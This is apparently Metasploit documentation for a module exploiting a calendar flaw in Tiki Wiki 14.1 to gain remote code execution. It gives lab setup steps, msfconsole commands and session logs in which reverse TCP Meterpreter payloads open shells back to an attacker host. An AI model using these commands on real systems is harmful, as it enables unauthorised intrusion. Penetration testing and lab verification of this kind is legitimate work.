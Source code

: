 ## Vulnerable Application

  Official Source: [sourceforge](https://sourceforge.net/projects/tikiwiki/files/Tiki_14.x_Peony/14.1/)
  Exploit-db: [edb](https://www.exploit-db.com/apps/2fa84367ba4f14afab9f51cd3e93606d-tiki-14.2.7z)
  Archived Copy: [github](https://github.com/h00die/MSF-Testing-Scripts)

### Creating A Testing Environment

  1. Create a fresh Ubuntu 16.04 w/ a LAMP install
  2. `apt-get install php-xml`
  3. Normal php install at that point!
  4. After install, login as admin:admin
  5. Go to the Control Panels
  6. Click Features
  7. Enable Calendar under Main feature
  8. Click Apply

#### Permissions

  If you wish to enable the non-logged in user (anonymous) to view/exploit the calendar
  1. Log in as admin
  2. From the top dropdown select permissions
  3. Check Anonymous near the top
  4. Click Assign

## Verification Steps

  1. Install the software as documented above
  2. Start msfconsole
  3. Do: `use exploit/linux/http/tiki_calendar_exec`
  4. Do: `set rhost 10.10.10.10`
  5. (optional, if not set, set username to empty) Do: `set PASSWORD admin`
  6. Do: `set payload php/bind_perl`
  7. Do: `set verbose true`
  8. Do: `check`
```
  [*] Attempting Login
  [*] Verifying login... Visiting redirect to: http://10.10.10.10/t14_1/tiki-wizard_admin.php?&stepNr=0&url=http%3A%2F%2F192.168.2.190%2Ft14_1%2Ftiki-index.php
  [+] Login Successful!
  [+] 10.10.10.10:80 The target is vulnerable.
```
  8. Do: `exploit`
  9. You should get a shell
```
  [*] Started reverse TCP handler on 10.10.10.10:4444 
  [*] Attempting Login
  [*] Verifying login... Visiting redirect to: http://10.10.10.10/t14_1/tiki-wizard_admin.php?&stepNr=0&url=http%3A%2F%2F192.168.2.190%2Ft14_1%2Ftiki-index.php
  [+] Login Successful!
  [*] Sending malicious calendar view packet
  [*] Sending stage (33721 bytes) 10.10.10.10.190
  [*] Meterpreter session 1 opened (10.10.10.10:4444 -> 192.168.2.190:48188) at 2016-06-19 08:50:44 -0400
```
## Options

  **PASSWORD**

  Password is set at first login. Default for admin is 'admin'.

## Scenarios

Example running against unauthenticated calendar v14.1

```
  msf > use exploit/linux/http/tiki_calendar_exec
  msf exploit(tiki_calendar_exec) > set rhost 192.168.2.190
  rhost => 192.168.2.190
  msf exploit(tiki_calendar_exec) > set targeturi /t14_1/
  targeturi => /t14_1/
  msf exploit(tiki_calendar_exec) > set payload php/meterpreter/reverse_tcp
  payload => php/meterpreter/reverse_tcp
  msf exploit(tiki_calendar_exec) > set lhost 192.168.2.229
  lhost => 192.168.2.229
  msf exploit(tiki_calendar_exec) > set verbose true
  verbose => true
  msf exploit(tiki_calendar_exec) > set username ''
  username => 
  msf exploit(tiki_calendar_exec) > exploit
  
  [*] Started reverse TCP handler on 192.168.2.229:4444 
  [*] Sending malicious calendar view packet
  [*] Sending stage (33721 bytes) to 192.168.2.190
  [*] Meterpreter session 1 opened (192.168.2.229:4444 -> 192.168.2.190:48172) at 2016-06-18 10:58:19 -0400
  
  meterpreter > sysinfo
  Computer    : tikiwiki
  OS          : Linux tikiwiki 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64
  Meterpreter : php/php
  meterpreter > 
```
